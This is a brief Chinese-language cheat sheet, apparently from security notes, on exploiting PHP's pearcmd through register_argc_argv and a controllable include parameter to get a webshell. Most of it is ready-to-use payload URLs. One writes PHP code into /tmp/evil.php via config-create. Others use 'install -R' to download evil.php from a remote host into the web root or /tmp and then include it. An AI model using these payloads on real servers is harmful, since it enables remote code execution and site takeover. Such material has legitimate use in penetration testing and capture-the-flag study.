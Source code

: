 # pear+register_argc_argv 利用

假如存在以下环境：

- 安装了 pear

- 开启了 registerargcargv

- 存在可控的 include $_GET['f'](即使是 include $_GET['f'].php)

那么我们就可以通过上面的知识实现任意文件下载从而 getshell:

```txt
//通过本地直接写入 webshell, 注意这里最好抓包然后用 burpsuite 或者直接 curl 执行，否则浏览器会将< ? > 转义
// config-create 可以直接创建配置文件，且第一个参数必须以/开头
http://ip:port/include.php?f=pearcmd&+config-create+/<?=phpinfo();?>+/tmp/evil.php
// 通过远程直接下载 webshell
// web 目录可写
- http://ip:port/include.php?f=pearcmd&+install+-R+/var/www/html+http://ip:port/evil.php
- http://ip:port/tmp/pear/download/evil.php
// tmp 目录可写
- http://ip:port/include.php?f=pearcmd&+install+-R+/tmp+http://ip:port/evil.php
- http://ip:port/include.php?f=/tmp/pear/download/evil
```
